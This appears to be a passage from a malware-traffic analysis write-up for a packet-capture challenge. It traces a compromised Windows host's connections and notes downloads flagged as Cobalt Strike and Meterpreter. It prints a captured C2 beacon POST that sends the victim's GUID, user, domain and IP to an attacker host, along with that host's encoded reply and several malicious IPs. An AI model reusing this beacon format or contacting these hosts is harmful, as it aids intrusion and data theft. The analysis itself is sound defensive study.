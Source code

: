After these there are a large number of HTTP connections to `65[.]60[.]35[.]141` - but over port 443, instead of 80, and nearly all for `/g.pixel`. This could be the C2.

Looking at just these likely-malicious IPs:

`ip.addr==194.226.60.15 || ip.addr==8.209.119.208 || ip.addr==162.244.83.95 || ip.addr==65.60.35.141`

The first connection is:

`10182	2021-06-16 14:37:08	10.6.15.119	50711	194.226.60.15	80	TCP	66	50711 → 80 [SYN] Seq=0 Win=65535 Len=0 MSS=1460 WS=256 SACK_PERM=1`

This connection consists of:

```
POST /8/forum.php HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Host: hadevatjulps.com
Content-Length: 161
Cache-Control: no-cache

GUID=10958113038079894272&BUILD=1605_zdlpg&INFO=DESKTOP-NIEE9LP @ SALTMOBSTERS\tommy.vega&EXT=SALTMOBSTERS;saltmobsters.com;&IP=173.66.46.97&TYPE=1&WIN=10.0(x64)HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Wed, 16 Jun 2021 14:37:07 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/5.4.45

88
MYBNARZAEg4OCkBVVQkIGxQeSk4IHFQID1VLTFQYExQHARZAEg4OCkBVVQkIGxQeSk4IHFQID1VLTAlUGBMUBwEYQBIODgpAVVUJCBsUHkpOCBxUCA9VHE0QDxIRCAMPTlQfAh8H
0
```

That is not data you'd want to be going to a malicious IP! This also confirms the user and hostname we previously found.

This looks to be when the malicious activity started: **2021-06-16 14:37:08**.

The next two connections are downloading the `.bin` files and `VOoh` from the `.ru` domain. These are just `data` files. Putting the hashes of them into VirusTotal gives something for `VOoh`: BackDoor.Meterpreter.152; Trojan.Win32.COBALT.SMD.hp; ATK/Cobalt-D.

`4Erq` is also just data with no results for the hash. The `pixel` files are also just `data`.

And now the .exe! I couldn't export `f7juhkryu4.exe` with Export Objects → HTTP, but I could save the stream: Right click, Follow → TCP Stream, Show and save data as: Raw (very important!), then Save as. Go into your text editor of choice (VSCode) and delete everything before `MZ` (as an MS-DOS executable always starts with MZ). However, the hash doesn't return any information. Running `strings` on it doesn't help much either, although it does show that it has the libraries for making network connections. I'm not going to attempt to full reverse-analyse it for this challenge.
